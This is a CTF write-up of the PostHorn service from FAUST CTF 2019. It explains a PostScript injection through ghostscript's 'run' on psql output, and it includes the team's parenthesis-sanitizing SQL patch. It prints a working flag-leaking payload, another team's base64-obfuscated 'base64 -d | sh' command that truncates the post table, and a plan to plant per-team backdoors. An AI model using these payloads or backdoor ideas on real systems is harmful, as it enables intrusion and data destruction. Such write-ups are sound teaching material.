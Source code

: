 # PostHorn

![posthorn pdf](O89YgWk.png)

PostHorn was a service where we got first blood (🎉🎉🎉) in the 2019 FAUST CTF featuring Post-based technologies, such as

- HTTP Posts
- Postgress 
- Postscript

It had a CGI Webserver binary (launched by uwsgi):
![ghidra output](SGpPW9L.png)

The binary then executed PostScript files (the stuff that renders PDFs) (!!!) and forwarded the output of ghostscript to the browser.

We quickly decided the stripped binary was too much work... and focussed on the .ps files.

## PostScript

PostScript is an archaic stack-based language.
But it's very different from most things we were used to, for example defining a variable is:

```postscript
/variablename whatever def
```

Its primary use is to render PDFs.
Of course, the interface in the browser was PDFs and embedded forms <3, such as [this](index.pdf).

Due to recent PS-Based CVEs, we found a pretty good introduction here:
https://www.fortinet.com/blog/threat-research/debugging-postscript-with-ghostscript.html

## Postgress

All users and posts were added to a Postgress DB.
The Ghostscript interpreter (interpreting PostScript) then execed `psql` to communicate with the PostScript Database.

The flagbot dropped flags into the database (using POSTs of course) - as message of a user.

The `psql.ps` file (a postscript library to interact with postgress), was the following:

```PostScript
/sqlgetrow{
	null (w) .tempfile dup 4 -1 roll writestring closefile
	(%pipe%psql -z -t -A -f ) exch concatstrings (r) file 1000 string readline pop
} bind def

/sqlescapestring {
	(t) genuuid concatstrings ($) 2 {dup 3 1 roll 2 {concatstrings} repeat} repeat
} bind def

/sqlforallresults {
	/code exch def
	null (w) .tempfile dup 4 -1 roll writestring closefile
	(%pipe%psql -z -t -A -f ) exch concatstrings (r) file /fd exch def
	{
        mark fd 512 string readline {
			null (w) .tempfile dup 4 -1 roll writestring closefile
			5 dict dup dup 4 -1 roll run 3 -1 roll exch /posted exch put /post exch put code exec cleartomark
		}{
			cleartomark exit
		} ifelse
	} loop
} bind def
```

This was, indeed, were we found an injection.

In the function(?) (operator?) `/sqlforallresults`, the returns from postscript are being passed to `run`. 
The docs state:
> *run* is a convenience operator that combines the functions of _file_ and _exec_

Inside a called postgress sql function, we find: `SELECT format(' (%s)  (%s) ', ...` -> after some deugging, it was clear that the result is then directly interpreted by `gs` (brackets being the quotes for strings) and stored in a dict.
That means, anything with brackets can inject here.

Full PostScript RCE!

## The Exploit

![flag output pdf](flag.png)
As initial PoC exploit, we posted:

```SQL
SELECT post FROM post_table WHERE user_id in \(SELECT user_id from user_table where username in \('username', 'username2', 'username_n'\));) sqlgetrow show (nextpost
```

Since the sql function in `psql` (see the patched version below) then formats this to:

```PostGress
  (SELECT post FROM post_table WHERE user_id in \(SELECT user_id from user_table where username in \('username', 'username2', 'username_n'\));) sqlgetrow show (nextpost) (some_id)  
```

and `gs` `run`s this, it will first
- push the SQL statement to the stack
- execute the `sqlgetrow` operator which pushes the sql result to the stack
- calls `show` on this, outputting the flag to the PDF (see picture above)
- pushes two normal values to the stack to make the normal parsing function happy

At the same time, we started patching.

## The Patch

To fix this issue we sanitized the output of the two provided postgres functions. 
In particular usernames and the content of posts could be used to trip up the postscript parsing.

As a quick fix, we replaced the parentheses with letters, by using the `translate` function, rigerously repacing `(` with `a` and `)` with `b`.

The resulting functions (the original versions were the same without translate) are:

```SQL
CREATE OR REPLACE FUNCTION get_posts(fromuser TEXT, asuser TEXT)
RETURNS SETOF text
AS $$
        WITH help AS (SELECT user_id FROM user_table WHERE asuser = username)
        SELECT format(' (%s)  (%s) ', translate(post, '()', 'ab'), posted)
        FROM help, post_table INNER JOIN user_table USING (user_id) INNER JOIN access_table USING (post_id)
        WHERE user_table.username = fromuser AND access_table.user_id = help.user_id;
$$
LANGUAGE sql;

CREATE OR REPLACE FUNCTION get_friends(fromuser TEXT)
RETURNS SETOF text
AS $$
        WITH help AS (SELECT user_id FROM user_table WHERE fromuser = username)
        SELECT DISTINCT format(' (%s)  (%s) ', post_table.user_id, translate(username, '()', 'ab'))
        FROM help, post_table INNER JOIN user_table USING (user_id) INNER JOIN access_table USING (post_id)
        WHERE access_table.user_id = help.user_id
$$
LANGUAGE sql;
```

## A Nicer Exploit That Should Have Been...

Since flags got deleted by the other teams' exploits, for example with:

```PostScript
%pipe%echo cHNxbCAtYyAnc2VsZWN0ICogZnJvbSBwb3N0X3RhYmxlO1RSVU5DQVRFIHBvc3RfdGFibGUgQ0FTQ0FERTsnfGdyZXAgLW8gJ0ZBVVNUX1tBLVphLXowLTkrL10qJyAK | base64 -d | sh >> /tmp/zalupa) (r) file closefile 0 quit (12345
```

which decodes to

```
psql -c 'select * from post_table;TRUNCATE post_table CASCADE;'|grep -o 'FAUST_[A-Za-z0-9+/]*' 
```

We came up with the idea to:

- fix the service for other teams
- leave a backdoor with backdoor key per team
- profit

Since this could be done inside psql, (with `CREATE OR REPLACE FUNCTION`) leaving the original `sql` file intact, teams might not even have found their own patches and backdoors.

![future](1gp4ub.jpg)

In the end, we failed to do `psql` things the way `psql` wants to do things in time...

Next time...


## Done

Thanks for listening.
Great service with some retro post horny technologies!
Writeup by domenukk and iwo -  thanks to Victor and Lucas. 
